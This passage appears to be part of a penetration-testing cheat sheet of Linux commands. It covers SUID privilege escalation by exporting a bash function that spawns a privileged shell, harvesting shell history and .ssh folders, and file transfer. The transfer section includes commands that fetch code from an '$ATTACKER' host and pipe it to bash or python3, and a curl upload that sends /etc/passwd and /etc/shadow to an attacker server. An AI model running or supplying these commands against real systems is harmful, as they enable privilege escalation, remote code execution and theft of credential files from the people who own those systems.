 - Option 2
  - strings /usr/local/bin/suid-env2
  - /bin/bash --version < 4.2
  - function /usr/sbin/service { /bin/bash -p; }
  - export -f /usr/sbin/service
  - /usr/local/bin/suid-env2

### Finding Important Files
- History
  - cat ~/.*history | less
  - .ssh Folder is always a must

## File Transfer
- **Enconding**
  - cat /path/to/file | base64 -w 0;echo ==> Encoding
  - echo -n 'base64' | base64 -d > file  ==> Decoding
    - uncompres file.Z
- **wget | curl**
  - wget http://$ATTACKER/file -O file
  - curl http://$ATTACKER/file -o file
    - | bash  ==> fileless
    - | python3
  
- **HTTP local server**
```
# Attacker
python3 -m http.server 8000
python2.7 -m SimpleHTTPServer
php -S 0.0.0.0:8080
ruby -run -ehttpd . -p8000

#Target
curl attacker-machine:8000/file.ext
chmod +x file.ext

# Attacker: for file UPLOAD
sudo python3 -m pip install --user uploadserver

## Create self-signed certifiate
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

## Create folder + start server
mkdir https
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# Target
curl -X POST https://$ATTACKER/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
wget $ATTACKER:8000/filetotransfer.txt
```
 
